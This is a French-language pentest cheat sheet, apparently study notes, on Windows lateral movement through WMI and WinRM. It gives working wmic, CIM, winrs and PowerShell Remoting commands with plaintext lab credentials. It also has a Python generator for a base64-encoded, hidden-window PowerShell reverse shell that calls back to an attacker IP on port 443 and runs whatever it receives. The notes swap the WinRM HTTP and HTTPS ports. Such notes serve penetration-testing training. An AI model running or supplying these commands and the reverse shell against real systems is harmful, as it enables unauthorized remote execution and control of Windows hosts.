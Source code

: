 # WMI et WinRM
## WMI
Windows  Management Instrumentation (WMI). Orienté objet. Créé des processus. 
Utilise RPC sur port 135 et des ports haut pour les données de sessions.
Requière creds d'un administrateur locale

## CMD

```
wmic /node:192.168.50.73 /user:jen /password:Nexus123! process call create "calc"
```

## Powershell
``` powershell
$username = 'joe';
$password = 'Flowers1';
$target_ip = '172.16.234.10';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
$options = New-CimSessionOption -Protocol DCOM
$session = New-Cimsession -ComputerName $target_ip -Credential $credential -SessionOption $Options 
$command = 'calc';
Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};
```
Encode en base64 un reverse shell
``` powershell
import sys
import base64

ip = "192.168.45.196"
port = 443
payload = '$client = New-Object System.Net.Sockets.TCPClient("%s",%i);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()' % (ip,port)

cmd = "powershell -nop -w hidden -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()

print(cmd)
```


## WinRM
Alternative à WMI, Utilise message XML par HTTP (5986) et HTTPS (5985)
différents utilitaires
### WinRS
```
winrs -r:files04 -u:jen -p:Nexus123!  "cmd /c hostname & whoami"
```
### Powershell Remoting
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ powershell
$username = 'jen';
$password = 'Nexus123!';
$target_ip = '192.168.202.72';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
New-PSSession -ComputerName $target_ip -Credential $credential
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~